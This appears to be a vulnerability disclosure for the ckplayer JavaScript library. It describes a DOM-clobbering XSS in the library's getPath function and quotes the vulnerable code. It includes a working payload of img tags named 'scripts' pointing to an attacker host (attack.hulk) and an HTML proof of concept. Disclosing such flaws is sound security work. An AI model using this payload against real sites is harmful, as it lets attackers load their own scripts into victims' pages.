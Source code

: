 ## ckplayer

### Meta

+ Library: ckplayer
+ Stars: 1.1K
+ Version: latest
+ Payload: ```<img name="scripts" src="https://attack.hulk/js/"><img name="scripts" src="https://attack.hulk/js/">```
+ Impact: XSS
+ CVE: N/A
+ Status: Reported
+ Foundby: TheHulk


### Library

https://gitee.com/niandeng/ckplayer

### Vulnerable Code Snippet

```javascript
function getPath(siz) {
  var scriptList = document.scripts,
    thisPath = scriptList[scriptList.length - 1].src;
  for (var i = 0; i < scriptList.length; i++) {
    var scriptName = scriptList[i].getAttribute('name') || scriptList[i].getAttribute('data-name');
    var src = scriptList[i].src.slice(scriptList[i].src.lastIndexOf('/') + 1, scriptList[i].src.lastIndexOf('.'));
    if ((scriptName && (scriptName == 'ckplayer' || scriptName == 'ckplayer.min')) || (scriptList[i].src && (src == 'ckplayer' || src == 'ckplayer.min'))) {
      thisPath = scriptList[i].src;
      break;
    }
  }
  var path=thisPath.substring(0, thisPath.lastIndexOf('/js/') + 1);
  if(!isUndefined(siz)){
    path+=siz+'/';
  }
  return path;
}
```

### PoC
```html

<!--Library-->
<link type="text/css" rel="stylesheet" href="ckplayer/css/ckplayer.css" />
<script type="text/javascript" src="./ckplayer/js/ckplayer.js" charset="UTF-8"></script>
<div class="video" style="width: 600px;height: 400px;">播放器容器</div>
<script type="text/javascript">
    var videoObject = {
        language: 'en',
        container: '.video',
        video: 'https://fake-server/no.mp4'
    };
    var player = new ckplayer(videoObject);
</script>
<!--Library-->

<!--Payload-->
<img name="scripts" src="http://localhost:9999/js/">
<img name="scripts" src="http://localhost:9999/js/">
<!--Payload-->
```